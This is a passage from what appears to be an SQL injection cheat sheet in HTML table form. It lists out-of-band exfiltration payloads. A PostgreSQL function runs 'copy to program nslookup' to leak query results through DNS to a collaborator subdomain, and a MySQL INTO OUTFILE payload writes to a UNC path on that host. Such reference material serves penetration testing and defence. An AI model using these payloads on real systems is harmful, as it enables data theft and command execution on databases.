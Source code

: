             declare p text; <br />
            begin <br />
            SELECT into p (SELECT YOUR-QUERY-HERE); <br />
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN'''; <br />
            execute c; <br />
            END; <br />
            $$ language plpgsql security definer; <br />
            SELECT f();</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            The following technique works on Windows only: <br />
            <code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
        </td>
    </tr>
</table>
